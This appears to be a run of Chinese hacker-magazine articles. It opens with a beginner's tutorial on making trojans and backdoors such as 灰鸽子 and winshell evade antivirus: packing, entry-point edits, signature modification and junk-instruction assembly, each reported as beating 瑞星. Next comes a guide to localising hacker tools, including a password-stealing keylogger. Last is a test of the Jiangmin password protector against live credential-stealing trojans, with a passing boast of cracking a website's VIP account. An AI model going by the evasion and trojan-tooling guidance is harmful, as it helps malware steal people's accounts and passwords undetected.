- 2. 现在轮到我们的猛壳 svkp 1.43 登场了。在使用猛壳加载灰鸽子前，记得先把杀病毒软件给关闭了。打开猛壳 svkp 1.43 并加载木马，如图2，这个“伪壳”还有使用“注册码”等安全机制。我们先什么都不用，直接点“加密”按钮。加密过程有点儿慢，大家等候几秒后，进入木马的文件夹下就会发现多出一个 Server.exe.BAK 文件，这个文件就是我们加密前备份的原灰鸽子服务端，如图3。

- 3. 我们打开瑞星杀毒软件再次对 Server.exe 进行查杀，结果显示已经查不到木马了，如图4。啊哈，这个壳果然不简单，并不需要其它修改，直接加壳就可以躲过最新的瑞星了。  


### 二、入口点 +1 免杀法

对于不懂得汇编语言而又想制作免杀后门或木马的朋友，这个方法是最适合的了，因为这个方法不需要手动修改大量的代码，只需要找到后门的入口点，并且在入口点十六进制的数上 +1 即可。

- 1. 首先打开 PEditor 工具并且加载成品程序，如图5。  
- 2. 现在我们要做的就是修改入口点“000A1E48”的值，我们在这个值的基础上 +1，修改后结果就是“000A1E49”。  
- 3. 最后点击“应用更改”按钮，如果此时显示“修改文件更新成功”的提示，就说明更新成功了。  


现在免杀版的灰鸽子就很简单地制作完毕了。很容易吧，但是要注意，不是所有的后门或木马这么修改后都可以起到免杀的效果，最好和上面的加生僻壳的方法来结合使用，免杀效果会更佳。


### 三、特征码修改免杀法

这种通过修改木马特征码来实现木马免杀的效果极强，但是也有不足之处。我们知道目前市面上的杀毒软件（如瑞星、KV 等）查找病毒的特征码并不一样，所以这种方法更适用于针对某一种杀毒软件。文中介绍了使用特征码提取工具和进一步处理的方法，并强调传统做法步骤复杂，而使用“冰枫文件防火墙”可以自动提取并生成可用文件，操作更简单。

- 1. 打开“冰枫文件防火墙”，点击“改特征码”按钮，如图7。  


- 2. 在“源文件”里载入“QQ大盗.exe”，“保存到”选择目标文件夹，然后点击“开始”。工具会在目标文件夹生成大量文件，其中部分带病毒特征、部分无特征。可通过杀毒软件扫描区分，如图8（示例为生成 28 个文件，其中 24 个带毒）。

- 3. 再查看“冰枫文件防火墙”界面，提示点击“继续”，如图9。继续后会在该文件夹生成更多文件，再次查杀即可。

- 4. 最后查看文件夹中生成结果，如图10。经过免杀处理后，多个“QQ刷拉盗”木马可直接选用。  


> 注意：最后生成的众多免杀木马文件可能不会都好使，大家可以从中挑选，然后使用虚拟机测试即可。

### 四、加花指令免杀法

上面的三种免杀方法都是使用工具来实现的，很简单。下面介绍的加花指令免杀法相对来说需要更多手动修改，但依然属于较为简单的操作。

#### 1. 后门测试准备

首先使用一个未加壳的后门程序（示例为 winshell 5.0 后门），其默认开启端口为 5277。先用 PEiD 等侦壳软件进行查看一下 winshell 是否加壳了，如图11。结果表明此后门并没有加壳，是使用 VC++ 6.0 编写的。我们来使用瑞星杀毒软件测试一下，如图12，winshell 一下子就被检测成后门了。


#### 2. OD 制作花指令

我们用 OD 载入 winshell 程序，记下入口点的地址，一会儿我们 jmp 的时候要用到，如图13。接下来我们拉动滚动条，找到代码都是 0 的位置，也就是零区域，而且我们还要再记住零区域的起始地址，如图14。然后我们就开始在零区域的起始地址逐步地写入下面我准备好的花指令了，代码如下：

花指令写完后，现在在空白处点鼠标右键，然后选择“复制到可执行文件”，这样我们就可以保存修改后的 winshell 了，如图15。

```asm
push ebp
mov ebp, esp
PUSH -1
PUSH 0
PUSH 0
MOV EAX, DWORD PTR FS:[0]
PUSH EAX
MOV DWORD PTR FS:[0], ESP
SUB ESP, 68
PUSH EBX
PUSH ESI
PUSH EDI
POP EAX
POP EAX
POP EAX
ADD ESP, 68
POP EAX
MOV DWORD PTR FS:[0], EAX
POP EAX
POP EAX
POP EAX
POP EAX
MOV EBP, EAX
JMP 0040280A
```


#### 3. 后门最后的修改

据说我们使用 PE Editor 这款工具打开 winshell 程序，会看到文件信息里的“入口点”的输入框里显示“0000280A”，如图16。

现在我们就要把这个入口点改成刚才记下的零区域的起始地址“00005D18”，最后按应用更改，使更改生效。

#### 4. 最后的测试

目前 winshell 已经使用加花指令法做成免杀的后门了，我们再使用瑞星对它进行查杀，结果证明 winshell 已经免杀了，如图17。最后我们来运行一下免杀后的 winshell，看看是否可以正常运行。我在电脑上执行了 winshell.exe，然后在其它电脑上使用 NC 连接 5277 端口成功，证实我们使用加花指令制作而成的免杀 winshell 成功了。


图17

上面的方法是手动来对木马文件进行加花指令才实现免杀的，如果大家不愿意动手的话，不妨试试我推荐的这款“超级加花器”。它是一个可以自动给文件进行加花指令的工具，我们来看看它的用法。


图18


图19

- 1. 首先打开它，并且把我们要加花指令的 winshell 用鼠标拖上去，如图18。  
- 2. 在花指令栏有多种选择，我们可以任选一个，如图19。  
- 3. 最后点击“加花”按钮，我们的 winshell 就已经变成免杀版本的了，简单实用吧！现在我们打开瑞星对它进行查杀，果然没有提示了，免杀成功。

### 五、变化入口地址免杀法

这种方法我觉得也可以算是“入口点 +1 免杀”的一个变种，不过它的效果比“入口点 +1 免杀”的方法要强很多，而且制作过程和“加花指令免杀”有点儿类似。

首先使用 OD 加载 winshell 后门，记住入口地址的前两行，如图20。然后我们把这 2 行移到零区域去执行，最后按照“加花指令免杀法”的方法把 jmp 后面写上入口点的地址，如图21。保存后用 PEditor 把入口点改成零区域的首地址即可。此种免杀技术与“加花指令免杀”同样具有很好的免杀效果。


图20


图21

### 六、OD 一半定位免杀法

这种免杀方法和病毒特征码定位是很相像的，该方法主要是让不会使用定位特征码的朋友也能够很容易掌握到特征码的位置。大家看完后会觉得这是个很简单的方法，但是工作量大了点，下面大家就来看看 OD 是怎么一半定位的。

首先我们把木马加载到 OD 里，然后用 NOP 填充所有代码的 1/2，然后保存，最后用杀毒软件查杀是否有木马迹象。如果杀毒软件有反映，就说明病毒特征码在另一半代码中，然后就把另外 1/2 代码用 NOP 填充；如果杀毒软件还有反映，那继续上面的操作；如果杀毒软件没报警，就证明病毒特征码就在前一个被 NOP 填充的那一半代码中，随后对那一半进行 1/2 的 NOP 填充。这样不断缩小范围，就很容易找到需要修改的代码部分。如果是做内存免杀，就把 NOP 填充好的文件用 OD 打开进行内存杀毒。由于此免杀方法工作量较大，所以本文我就不演示给大家看了。

### 七、总结

以上我介绍的这六种常用的免杀方法各有千秋，希望大家能够把上述六种方法结合起来使用。我们的目标就是“变态”免杀策略——“内存特征码修改 + 加花指令 + 入口点加1 + 加壳解壳 + 变化入口地址”。这样才能够长时间地保持我们的木马免杀。只要我们能够熟练地使用这六种技巧，再厉害的杀毒软件也会变成白痴的，而菜鸟的木马免杀大法，也就是这么简单地修炼成的！

> （文中涉及到的工具：猛壳 svkp1.43、PEditor、冰枫文件防火墙、winshell5.0、超级加花器、OD、PEiD，已经收录于光盘中）

## X 编编语

在今年第 1 期小手册中，我们已经详细地给大家讲解了如何制作免杀木马的方法。不过，那篇专题中主要是以网页木马的免杀为主的，这使得许多只会使用传统木马的菜鸟非常遗憾。不过，现在好了，相信本期的主题乐园一定会让他们满意的。本文中只是使用了瑞星杀毒软件为例，因此使用本文制作出来的免杀木马，如果使用别的杀毒软件检测的话，有可能仍然会被查杀出来。所以，我们在实际的使用过程中，可以多找一些生僻的加壳工具，另外就是将本文介绍的方法结合起来使用，这样效果会更好的。

## 让黑客兵器出色兼与艺手


相信大家都听过不少汉化版的黑客兵器吧，经常会看到上面写着“某某汉化破解版”，我们这些小菜只能用万分崇拜的目光注视，心中暗想“什么时候偶的菜名也能写在上面呢？”其实汉化黑客工具并不是想象中的那么神秘，也不是破解高手们的专利，只要认真学习，按照本文讲解的方法，菜鸟们也可以轻松地打造出属于自己的黑软兵器！

简单点说，汉化软件就是利用汉化工具来处理软件的标准资源，使软件的界面和提示等有关的文字变为中文文字，并能在中文系统下正常运行。什么是标准资源呢？资源（Resource）就是软件的运行界面、图片和相关文字信息。汉化的工作无非就是使用特殊的汉化工具，将软件中的这些资源提取出来，然后进行重新翻译，最后由工具写回原始的软件中，这就是汉化的简单过程。利用这种方法的好处是无需得到软件的源代码就可以实现汉化，即使你不会编程也可以轻松打造出属于自己的汉化软件。

> 汉化软件经常用到的工具有以下一些：

- 1. eXeScope、Resource Hacker、PE Explorer、ResScope（资源修改工具）
- 2. FreeRes（资源分析工具）
- 3. PEiD（查壳脱壳工具）
- 4. DLT/FixRSC（资源标准化工具，可将某些 PE 格式文件中的非标准资源进行标准修复）
- 5. UltraEdit-32（ASCII 字符修改工具）

汉化软件的一般步骤如下，我通常称之为“黑软汉化三步绝杀”。

- 1. **查看软件是否加壳，是用哪种语言编写的**  
对于加过壳的软件，很难对其资源直接修改，因此我们的原则是“有壳必脱之”。由于不同种编程语言编写出来的软件的资源格式各不相同，因此查看编写语言是进行下一步的前提条件和必要准备。

- 2. **查看资源类型，确定汉化方案**  
有了上面的准备工作，接下来就可以对程序资源进行初步分析了。资源类型一般有如下规律：VC 类的资源一般可以看到 Menu（菜单）和 Dialog（对话框）等内容；Delphi 类型的资源一般会有 RcData，且其内部代码可被模拟。除以上两种情况外则是非标准资源或程序脱壳不彻底。

- 3. **汉化资源，写入程序**  
使用汉化工具对其资源进行修改重新翻译，并保存修改后的程序。

### 一、VC 汉化通用方法

我们首先汉化的是一款经典的下载者 Atmaca Downloader，相信不少朋友都用过同类工具吧。

#### 第一步：查壳脱壳

天下没有免费的午餐，当然也没有不加壳的黑软。一般黑客软件的编写者也都是 crack 高手，其加密加壳手段当然不会太弱。我们使用 PEiD 加载 Atmaca Downloader 主程序 Builder.exe，会得到如图1所示的信息。


可以看出程序加的是 FSG 1.33 变形壳，还好我们的 PEiD 功能强劲，使用其插件“Unpacker for FSG 1.33”或“PEiD Generic Unpacker”都可以轻松搞定，如图2。脱壳成功后会有如图3所示的提示。


在 PEiD 的目录下将会生成一个名为 unpacked.exe 的文件，该文件就是脱壳后的程序了。我们重新使用 PEiD 加载脱壳后的 unpacked.exe，以查看它是使用哪种语言编写的，如图4。从图中可以得知，该软件是由 Microsoft Visual C++ 6.0 编写。一般 VC++ 编写的程序使用 eXeScope 就可以轻松汉化。


图4

#### 第二步：查看资源类型，确定汉化方案

使用 eXeScope 加载脱壳后的程序 unpacked.exe，查看资源的结构和类型，如图5。


图5

发现其中含有 Dialog（对话框）的内容，这也再次确认其资源类型为 VC++。但在查看具体资源时出现了一个警告提示，这说明资源的结构可能为非标准结构，eXeScope 无法识别，汉化的过程并不是一帆风顺的。但是不要灰心，既然不是标准资源，那我们就把它修复为标准结构，可以使用 DT_FixRes 对资源标准化。使用 DT_FixRes 加载脱壳后的程序 unpacked.exe，如图6。


图6

当点击“Fix Resource”（修复资源）后，底部信息栏提示“Resource was fixed successfully”，说明修复成功了。修复后的资源为标准微软 PE 格式文件资源，这样我们就可以使用 eXeScope、Resource Hacker、PE_Explorer、ResScope 中的任意一款软件来进行修改。

#### 第三步：汉化资源，写入程序

下面就来正式汉化程序各个界面和文字信息了。我们还是选用 eXeScope（也可以使用其它资源修改工具）加载 unpacked.exe，这回查看各资源的时候就不会弹出警告了。一般软件汉化主要是对其界面进行修改，也就是修改 Dialog（对话框）的内容。而使用 eXeScope 修改 VC++ 资源效果较好，因为在修改的同时可以直接看到修改后的效果，对 VC++ 资源的修改可以说是做到了可视化的程度，如图7。


图7

修改方法如下：使用鼠标点选要修改的项目，在 Caption 属性处进行修改，将英文内容改成中文，如图8。同时你也可以发挥想象力打造出个性的界面。


图8

如果软件有多个 Dialog（对话框），使用同样的方法对 Dialog（对话框）里的其它界面进行汉化修改。修改完成退出时会提示是否确认修改，如图9。点“OK”即可完成修改并保存结果。快来看看我们的杰作吧。郁闷的是，在查看时你会发现“关于”窗口没有被汉化，如图10。


图9　图10

可是使用 eXeScope 查看资源的时候并没有发现这个窗口的资源啊？这是为什么呢？答案很简单。由于这个窗口资源属于非标准资源——ASCII 字符资源，因此 eXeScope 是无法提取修改的。那用什么方法可以修改呢？

不要着急，下面介绍汉化 VB 程序时将详细介绍汉化非标准资源——ASCII 字符资源的方法。VC++ 编写的程序汉化起来还是比较容易的，只要资源格式为标准格式，使用 eXeScope 就可以轻松搞定；如含有非标准资源，则使用汉化 VB 程序的方法也可以轻松解决。

光盘中提供了另外一款好用的黑软——彩虹木马的英文版，汉化方法和上面一样，大家可以动手汉化练习一下，如有什么困难和疑问可到 X 档案的论坛上找我。

图13所示的一个窗口。先点右面的“-->”按钮来查看程序入口点，再点下面的“Unpack”进行脱壳。当脱壳完毕后会提示是否使用“ImpREC”重建程序导入表，选择“是”，否则脱壳后的程序是无法正常运行的，如图14。


脱壳完成后，在 davps 目录下会生成一个 builder.exe.unpacked_.exe 文件，它就是脱壳后的程序了。可以看到它和原文件的大小相差很大，这说明 ASProtect 壳具有一定的压缩作用。这个程序是什么语言编写的呢？使用 PEID 加载 builder.exe.unpacked_.exe 查看一下就会知道了，如图15。


前面提到 Delphi 类型的资源一般会有 RcData，且其内部代码可被模拟。下一步我们就深入其内部看个究竟吧。

### 二、Delphi 汉化实践篇

下面以一款好用的密码窃取软件 davps 为例讲解 Delphi 资源的一般汉化方法。Davps 是一款很好用的键盘记录软件，支持邮件发送，可以截获所有密码并发送到你的指定邮箱，经常用于盗取 QQ、网游账号和密码。还是按照上面讲的那“三步绝杀”的方法搞定它。

#### 第一步：拨云见日

既然是黑软，加壳基本上已经成了必然。如果你见到哪个黑软没有加壳，请不要高兴太早，因为那很有可能是经过伪装来欺骗查杀软件的（比如当年的娜拉 QQ 大盗）。这款软件也不例外，如图11。


程序加的是 ASProtect 壳。新版 PEID 的通用脱壳插件（PEiD Generic Unpacker）基本上可以搞定所有常见的壳，当然 ASProtect 1.2/1.2c 壳也不例外，如图12。当我们选择通用脱壳插件后，会弹出如图13所示的窗口。

#### 第二步：初窥门径

使用 eXeScope 加载脱壳后的程序 builder.exe.unpacked_.exe 看看资源类型以及资源是否为标准化的，如图16。果然发现资源里有“RcData”，也可以看到具体资源代码，这时可以用 Delphi 对其内部资源代码进行模拟编辑。我们只是要汉化其界面，就没必要对其模拟了，有兴趣的朋友可以自己模拟一下。

一般来讲，汉化 Delphi 类型的资源就是对 RcData 中相关界面文字信息的“Caption”属性进行汉化修改。不过汉化 Delphi 类型资源不像汉化 VC++ 资源那样可以直接看到修改的效果。因此在汉化 Delphi 类型资源时一定要细心查看每一个 Caption 属性并对其进行汉化。


#### 第三步：登堂入室

## 主题乐园

汉化工作到这里才算真正的开始，方法和汉化 VC 程序差不多，也是修改项目的“Caption”属性。不一样的是 Delphi 类型资源的修改不如 VC++ 直观，如图17。


图17

在修改时要注意“修改后字符长度不要超过原来字符长度”，否则可能使程序无法正常运行。对所有文字信息修改后记得保存文件。然后就可以看看汉化后的效果了，和原来版本对比一下，如图18。遇到同样问题时，“关于”窗口的信息还是英文的，如图19。


图18


图19

其资源也为 ASCII 字符类型。汉化 ASCII 类型及 Unicode 类型字符目前还没有什么特别有效的工具，但是通用的方法是使用 UltraEdit-32 查找相应的 ASCII 字符并进行相应修改。

### 三、VB 汉化终极指南

在当前流行的程序设计语言中，VB 应该是较为易学易用的一门语言。VB 程序的汉化难度几乎比进行程序设计语言开发难度大。因为 VB 编译的程序中资源类型很多，包含一些非标准的汉化资源，如 ASCII 类型及 Unicode 类型字符等。

通过前面对 Visual C++、Borland C++ 或 Delphi 语言程序汉化的学习可知，要汉化一个软件，首先必须了解该软件的资源类型，从而根据具体类型决定使用合适的汉化工具。VB 软件所包含的可汉化资源分为 ASCII 字符和 Unicode 字符两类。

首先还是查壳，却发现这个软件居然没有加壳，如图20。使用 eXeScope 加载 D3S 查看资源类型，但并没有发现什么窗口、字符串等资源，这是由于 VB 程序的资源为非标准类型，如图21。


图20

要修改其资源最有效也是最近的方法就是用 UltraEdit-32 查找软件界面中的 ASCII 字符，再一个个手工修改。


图21

接下来的任务就是查找要汉化界面的英文字符。方法是在 UltraEdit-32 菜单栏中选择“Search”→“Find”，在弹出的窗口中填写要查找的英文字符信息，并勾选“Find ASCII”，点击“Find Next”进行查找。

## 主题乐园


图22


图23


图24

马上就会来到相应的 ASCII 位置，会发现找到的字符正好为软件的标题栏信息，如图24。既然找到了，剩下来的工作就是修改了。在 UltraEdit-32 的编辑窗口直接用鼠标选择要修改的字符直接进行修改即可。不过记得字符长度不要超过原来字符长度，如少于原来字符则用空格填充。千万要注意，在编辑字符时不可删除字符，用鼠标点选后直接键盘输入汉字即可，如图25。


图25

编辑完成后保存文件，打开查看修改后的效果即可，其余字符使用同样方法查找编辑。这就是 ASCII 字符资源的一般通用汉化方法。Atmaca Downloader 和 davps 中“关于”窗口的汉化方法与此如出一辙，请读者自己操作一下吧。

（文中涉及到的工具 peid、eXeScope、DT_FixRes、UltraEdit-32、Atmaca Downloader、davps、D3S WebDownloader，已经收录于光盘中）

## 索妮总结语

本文通过对 VC++、Delphi、VB 语言编写的程序进行汉化，介绍了汉化软件的一般方法和步骤。通过对资源、标准化等概念的阐述和汉化“三步”法的讲解，使初学者在短时间内对汉化有了初步的认识和理解。要在几分钟内掌握汉化技术是不太可能的，不过按照本文的方法，结合对本文提供软件的汉化练习，相信初学者在几个小时内掌握基本的汉化方法及技巧并打造个人专版汉化黑客软件还是很轻松的。如要对汉化进行更深入的学习，还要经过更多的练习和更深入的研究。

## 为了安全，请时刻准备着！——江民密保测试小记

摩诘 & 毒药

前阵子听说江民出了个产品叫“江民密保”。它号称拥有三大密保绝技，可有效保护网上银行、网络游戏、支付平台、网上证券交易等账号、密码，彻底斩断所有盗号木马的黑手。若真如其广告所说，那可绝对是所有网民的福音！江民密保也一定会成为将来黑客们挑战的对象了。应职业需求，我对它进行全面的测试，为读者验证一下，它到底是不是像广告说的那样：一旦装有，保密无忧。

### 一、简介

- 1. 内存级密码防护技术

对内存读入的数据实施保护，防止木马从内存搜索密码并向外发送。

- 2. 网银和网游安全专区

网银安全专区提供账户管理功能，只允许账户本人操作，用户可以将自己的网上银行、信用卡、支付卡、网上证券交易等重要隐私信息输入网银安全专区。这样无论是木马还是人为地以任何形式（包括邮件、网页等）发送包括受保护密码的信息，“江民密保”都会拦截并报警。“江民密保”网游专区加入了一款“江南主流网络游戏”，并支持用户自行添加游戏程序，从网游专区进入游戏后，系统会对该款网游实施贴身防护，只允许一些常用服务如邮件、QQ、网页等运行；对于其它需要执行的程序，系统会弹出提示和详细说明，由用户自己决定是否将该进程放行。

- 3. 木马隔离墙

这是为密码安全设置最后防线，对于不明程序通过网页、邮件等形式向外发送数据的，系统会发出报警并拦截。江民密保的安装十分方便，一路“下一步”就行了，安装完成后重启就可以使用。它不会自动开机启动，需要手动打开程序，其主界面如图1。

- c. 当前正被保护的对象：单击这个按钮会显示正在被保护的对象，密保会自动从默认保护对象与自定义保护对象列表进行识别。这是我打开 TM 密保自动识别的效果，如图4。


### 二、相应设置

打开程序的主界面，共有四个标签：“网游保护”、“网银保护”、“设置”、“帮助”。

- 1. **网游保护标签**
  - a. 添加自定义保护对象：它可以由用户自定义受保护的对象。点击“添加对象”可进入“添加自定义保护对象”，点击“浏览”设置保护对象路径，填写描述后确定即可，如图2。


  - b. 浏览默认保护对象：点击该按钮后会显示密保默认保护的网游程序，如图3。


  - d. 黑名单（受限模块）：某些对象在进行不安全操作时会被检测并弹出受限窗口，相关对象将出现在黑名单中。运行 QQ 时弹出的保护界面如图5，若点击“禁止”则会在黑名单中显示并认定 QQ.exe 为不安全模块，如图6。


这时我们可以点击“删除模块”完成不安全模块删除；或点击“移至白名单”将其移入白名单（受信模块）列表中。类似防火墙逻辑，若不确定其安全性可先“禁止”，确认合法后再解除限制。

  - e. 白名单（受信模块）：列表中的对象为受保护对象，系统预先集成并持续增加安全模块。白名单中的模块是密保信任模块，不会拦截其操作。
  - f. 拦截记录：相当于日志。


- 2. 网银保护标签，该功能可确保网上银行的安全

要使用该功能首先需点击“网银保护”标签创建账户，在用户、密码、确认密码处填写信息，并点击添加完成用户的添加，如图7。为了安全不要将用户名设为银行账户，然后点击“进入网银账号管理”，会要求输入用户密码。进入“网银账号管理”，这个对话框里要填写三个内容，“密码标识”相当于密码的别名，“网银密码”、“确认密码”就是网银的真实密码，输完之后点“添加一条”就 OK 了（可能这样大家还不太明白，这到底是在干什么，给大家比喻一下，第一开始创建账户 cmWJ 相当于一个大箱子，箱子里要装的就是你所有的网银密码，那这些密码密保是怎么来区分的呢，就是通过“密码标识”，图8就是我建的一个上海淘宝买东西时用“支付宝”的密码，等我们要用网银密码时就要打开这个箱子，从中选择我要的密码，就避免被键盘记录器记录密码的危险），具体怎么使用我会在后面测试中说明。


- 3. 设置标签，这个标签中的内容主要是对密保进行一些必要的设置

这里主要说明一下，“辅助输入”就是当我们登录网银时会自动弹出的窗口，如图9。它就是我说的那个装密码的大箱子的入口，输入密码登录后就进入网银密码列表，如图10。


在这里我们可以看到大箱子中的所有密码，然后通过点击“密码标识”来选择使用哪个密码登录网上银行。这样就可以避免恶意程序通过记录键盘来截取我们的网银密码了。

- 4. 帮助标签，主要就是查看帮助文件和在线升级

### 三、实际测试

#### 1. 聊天软件保护

我们测试的聊天软件为 QQ（版本：中国黑客6），测试用的木马为完美 QQ 大盗，使用 E-mail 收信方式，配置好木马后，在自己的机器上大胆地运行（小编：伟大的奉献精神）。这时候打开 QQ，如图11。注意看到那个小小的安全锁上出现了一个大红叉，当然，现在很多盗 QQ 的木马都能完美地破解安全锁了，这里是为了突出我们中木马的症状而已。尝试登录一下 QQ，检查 Email 里确实收到了密码信件，证明木马运行正常。

现在打开密保再登录 QQ，密保弹出提示“QQ.exe 在访问不明网络”，不过提示的说明好像是正常情况，如图12。既然它说是正常的，那么就姑且相信它，点“允许”，结果发现又一次收到了密码信件，如图13。


看来密保并没有达到保护我们 QQ 账号的效果，也并没有像介绍的那样准确定位入侵模块。回到密保中看一下“拦截记录”，该记录显示“QQ.exe 访问了不明网络”，操作目标是“E-mail”，处理方式是“允许”，这个会不会就是 QQ 盗号程序在发邮件呢？我们再拿一个 QQ 号来进行登录测试，结果出现了同样的提示信息。这次我们选择“禁止”，结果发现真的收不到密码邮件了（另注：在毒药机器上测试，收到了密码邮件，但密码是错误的）。我再回头看一下“拦截记录”，这次的记录表示是“QQ.exe 访问 network”，操作目标“http”，处理方式“禁止”，如图14。看来点“禁止”确实完成了对 QQ 账号的保护（很奇怪，为什么这次的操作目标不是 Email 而是 http？）。


## 主题乐园

> **评价**
>
> 从对 QQ 的保护测试来看，密保做得确实是很好的。主要是因为密保并不会定位并提示“QQ 木马”的程序文件。在截获 QQ 密码信息并对外发送邮件时，只要提示 QQ 程序在访问网络，所有的提示信息都是 QQ.exe 这个模块在访问网络。这样我们是很难判断哪些需要我们点击“允许”或哪些点击“禁止”。这些操作到底是不是合法的？这实在是一个不足。不过不管怎么说，江民密保至少不是浑然不知，在我对相应操作点击了“禁止”后，也确实阻止了木马程序对外发送密码邮件。

如图18。

全部点击“允许”，木马很自然地发出了密码信件，密保完全没有检测到截取密码的模块信息，没起到密保的作用。那全点“禁止”呢？结果测试后惊讶地发现还是收到了密码信件！因此江民密保对御宅旺旺完全一点保护作用也没起到！


| 聊天程序样本 | 木马样本 | 密保是否有效 | 密保是否准确定位入侵模块 | 提示信息详细与否 |
|---|---|---|---|---|
| QQ | 完美 QQ 大盗 | 有 | 不能 | 提示内容全部一样，无法分辨请求是否合法 |
| 淘宝旺旺 | 键盘记录 | 无 | 不能 | 提示内容全部一样，无法分辨请求是否合法 |


接下来我们测试的聊天软件为淘宝旺旺（版本：V1.7），测试用的木马为红蜘蛛键盘记录器白银版，E-mail 收信方式。

现在上淘宝买东西的人很多，为了方便和卖家联系，淘宝旺旺用得也就很多了，名气也算不小。不过因为没有专门盗号木马，所以这里就用键盘记录工具来代替吧。

配好键盘记录器，设置淘宝关键字为“淘宝旺旺”，然后填写相应收信信息，如图15。

点生成服务端并运行（电脑不要怪我啊，为了测试，你就忍了吧，回头叫欠钱请我吃饭）。我们登录淘宝旺旺，输入用户名与密码，然后等上 6 分钟收信，如图16，证明木马工作正常，不过天网会报警 Explorer.exe 访问网络端口 SMTP[25]，不用说了一定是马儿在发邮件，如图17。

现在打开密保，它还是自动保护了淘宝旺旺。运行淘宝旺旺，仍然是连续的几个关于 wangwang.exe 访问网络的请求，提示信息都一样，“wangwang.exe 访问不明网络”，大部分请求应该就是从网上获取一些 flash 信息或广告什么的。


通过上表我们了解到，就保护聊天软件这一项测试就反映了几个问题：

- 1. 密保工作不是很稳定，对 QQ 保护有效而对淘宝旺旺无效。
- 2. 不能对木马程序的病毒文件（就是密保中的入侵模块）准确定位。
- 3. 提示信息的问题：不能定位入侵模块，提示内容全部一样，也就无法分清请求的合法性；提示内容“可能概率低……”会给用户带来错觉（即：所有请求和操作都是合法的）。
- 4. 还不如天网防火墙，天网还知道是 Explorer 在发信，密保根本就没有定位。

#### 2. 对网游的保护

经历了对聊天软件保护测试的失败后，我们看看江民密保的重头保护对象——网络游戏！

测试的游戏为跑跑卡丁车，测试用的木马为红蜘蛛键盘记录器白银版，E-mail 收信方式。

为了从网上找到一个跑跑卡丁车专门的盗号木马，找到了 www.bbzz.com.cn。可是它居然提示要 VIP 会员才能下载，要花钱（唉，一点共享精神都没有！）没事随便测试了一下这个站，一会儿时间就破了一个 VIP 号，下载……不是吧！？居然是个键盘记录器！太垃圾了！算了我还是用“红蜘蛛键盘记录器”……


为大家测试一下吧！

配置“七剑”并生成相应的服务端，因为卡丁车的登录窗口标题为 Login，如图19。因此这里要把窗口关键字设为 Login。生成为木马后改给自己运行一下，不开密保登录跑跑卡丁车，等一小会儿去收信，很顺利地就记录了用户名与密码信息并成功发出邮件，如图20。


现在打开密保，运行跑跑卡丁车，密保自动将跑跑的主程序文件列入到“当前正在保护的对象”列表中，并提示 KarRider.exe 要访问网络。我连着点了几个“允许”，很自然地又收到了密码信。可是全部点“禁止”之后，KarRider.exe 将无法与服务器进行连接，也就无法进行游戏了。可是密保的提示信息依然是“可疑概率低，应该是正常程序”，我们是无法分辨哪一个请求是合法的，哪一个请求是键盘记录器读取密码，哪一个请求是键盘记录器在发送邮件，如图21。


那所有请求都点“禁止”是不是就收不到密码邮件了呢？

再一次登录卡丁车，有意输错了密码（用户名密码全部为 aaaaaaa）并禁止所有请求，结果令我很失望，键盘记录器还是截取到了我故意输错的密码，如图22。

接下来测试的游戏为梦幻西游，测试用的木马为“嘟咕梦幻西游木马”，ASP 收信方式。

配置木马界面如图23。把收信地址填写清楚，并把生成的收信文件上传到自己的空间里，就可以收到测试信了。运行木马程序，再登录梦幻西游，木马成功地截获到我的密码。到 login.asp 登录后看到如图24，证明我们的木马工作正常，现在开始测密保。


运行密保，还是同样的结果，密保自动保护梦幻西游的进程 my.exe，如图25。


同时连续弹出三个对话框说 my.exe 访问不明网络。经过测试，这三个连接请求分别是“获取服务列表”“获取游戏公告”“检查更新”的请求，都属于正常连接请求。不过点“允许”或“禁止”都不影响游戏运行。根据刚才测试经验我们全点“禁止”。当我登录游戏时却发生了一个小插曲：“天网防火墙”连续报警，提示为实时监控的 nn.exe 进程访问网络，如图26。奇怪，玩游戏为什么 QQ 附带的进程要访问网络？再看一下访问的 IP 地址“222.88.222.16”，不就是我网站地址吗？看来是木马插入到了这个进程。我们先点允许……

碍于测试，结果“顺利”收到了发来的密码，看来天网要比密保灵敏得多。重启换个号测试，接下来的一幕让我非常欣慰！密保终于检测到了入侵模块并弹出提示框（提示框中内容依旧写着“可疑概率低，应该是正常程序”）！并且天网也提示 Explorer.exe 要访问 222.88.222.16 这个 IP。


赶快看一下拦截记录：“regsvr1.dll 模块入侵！”，如图27、图28。


再用 IceSword 来检查，发现 Explorer.exe 也确实被插入了木马 DLL，如图29。密保终于发挥了一次应有的作用，不容易啊！最后我们测试的游戏为大话西游，测试木马使用了大话西游专用盗号木马，Email 收信。

同样还是先配置木马，这个木马有一个单独的文件来负责发信（mail.dll），把这个文件上传到网上就可以什么也不填，发信到我们指定的邮箱了（这下谁也别想找出发信信箱的信息了），木马配置界面如图30。


开密保运行大话西游，输入账号密码并勾选键盘保护登录游戏（大话西游并不在密保的默认保护范围内，需要自行添加，方法前面已经讲过了）。登录后提示依旧是“xy2.exe 在访问网络”，登录了几次都没检测到入侵模块。其它类似于点“允许”或“禁止”的步骤我在这就不再详细说明了，始终都可以收到密码信件，总之一句话：不成功。

事实上大话西游本身就有检测木马的能力（就像魔兽那样），如果游戏检测到有木马且没勾选键盘保护，将无法进入登录，所以只能勾选键盘保护才行。这样收到密码其实是不对的，本文只为测试密保的反应，就不在账号上下功夫了，请读者见谅。

| 网游样本 | 木马样本 | 是否有效 | 是否正确定位入侵模块 | 提示是否合法细致 |
|---|---|---|---|---|
| 跑跑卡丁车 | 键盘记录 | 无 | 不能 | 提示内容全部一样，无法分清提示是否合法 |
| 梦幻西游 | 嘟咕梦幻西游木马 | 有 | 能 | 非常清楚 |
| 大话西游 | 大话西游专用马 | 无 | 不能 | 提示内容全部一样，无法分清提示是否合法 |

### 总结

1. 通过网游的测试，总体感觉还是不稳定，不过在梦幻测试里也闪光了一下。  
2. 通过梦幻的测试，证明密保还是有能力找出木马，就是不太稳定。  
3. 提示信息的内容还要加强，因为我测梦幻时已经说是入侵模块，可底下还写着“概率低，应该是正常程序”，这也太离谱了。  
4. 病毒文件定位还是相当欠缺的，大多数情况下不能准确定位。

#### 3. 网银的保护

通过对聊天软件和网络游戏的测试，我们发现密保的实际效果并不理想。现在来到最后一项：网银。根据简介里介绍的方法创建一个账户，然后随便进入一个银行，比如建设银行，进行登录。这时密保会先弹出登录窗口，如图31（未登录网银，先要求登录密保，真麻烦）。


登录密保后会显示密码标识对话框，在密码列表中选择要使用的账户（事先就填好了的），然后点击密码标识，密码就会自动填进登录密码框中，如图32。这样由于整个过程中并没有用键盘输入网银密码，因此不必担心被键盘记录型木马抓到我们的敏感信息。

